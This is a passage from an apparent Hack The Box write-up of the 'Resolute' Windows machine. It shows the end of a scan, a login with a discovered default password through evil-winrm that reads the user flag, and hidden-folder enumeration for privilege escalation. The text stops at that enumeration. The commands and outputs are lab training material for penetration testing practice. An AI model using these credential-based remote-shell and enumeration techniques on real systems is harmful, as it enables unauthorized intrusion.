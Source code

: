 [*] resolute.htb:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## User

From this we see that Melanie's password is the default `Welcome123!`. We can use `evil-winrm` to get a shell as that user and get the flag.

```
# evil-winrm -i resolute.htb -u melanie -p Welcome123!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\melanie\Desktop> cat user.txt
0c3be4**************************
```

## Root

Now we will begin enumeration to try to escalate to root privileges. Looking at the Users folder, we see there is one other user with an account on this box, Ryan.

```
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/25/2019  10:43 AM                Administrator
d-----        12/4/2019   2:46 AM                melanie
d-r---       11/20/2016   6:39 PM                Public
d-----        9/27/2019   7:05 AM                ryan
```

However, we are not able to to read contents from that folder. If we look higher up at `C:\`, there are actually hidden folders that we can see with PowerShell.

```
*Evil-WinRM* PS C:\> Get-ChildItem . -Force


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d--h--        9/25/2019  10:48 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
d-r---        12/4/2019   2:46 AM                Users
d-----        12/4/2019   5:15 AM                Windows
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
-a-hs-        5/30/2020   4:14 AM      402653184 pagefile.sys
```
```